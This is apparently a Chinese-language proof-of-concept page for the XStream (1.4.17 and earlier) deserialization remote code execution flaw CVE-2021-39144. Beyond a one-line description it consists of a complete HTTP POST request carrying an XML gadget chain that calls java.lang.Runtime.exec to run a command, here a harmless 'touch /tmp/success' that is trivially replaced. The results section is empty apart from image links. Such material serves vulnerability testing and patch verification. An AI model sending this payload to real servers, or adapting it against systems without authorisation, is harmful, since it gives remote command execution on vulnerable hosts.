


# Xstream <= 1.4.17 反序列化RCE（CVE-2021-39144）

## 漏洞描述

Xstream <= 1.4.17 反序列化RCE

## writeup

- 待执行命令 

```
touch /tmp/success
```

- POC

```
POST / HTTP/1.1
Host: xxxxx:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 1281

<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
    </default>
    <int>3</int>
    <dynamic-proxy>
      <interface>java.lang.Comparable</interface>
      <handler class='sun.tracing.NullProvider'>
        <active>true</active>
        <providerType>java.lang.Comparable</providerType>
        <probes>
          <entry>
            <method>
              <class>java.lang.Comparable</class>
              <name>compareTo</name>
              <parameter-types>
                <class>java.lang.Object</class>
              </parameter-types>
            </method>
            <sun.tracing.dtrace.DTraceProbe>
              <proxy class='java.lang.Runtime'/>
              <implementing__method>
                <class>java.lang.Runtime</class>
                <name>exec</name>
                <parameter-types>
                  <class>java.lang.String</class>
                </parameter-types>
              </implementing__method>
            </sun.tracing.dtrace.DTraceProbe>
          </entry>
        </probes>
      </handler>
    </dynamic-proxy>
    <string>touch /tmp/success</string>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

## 复现结果




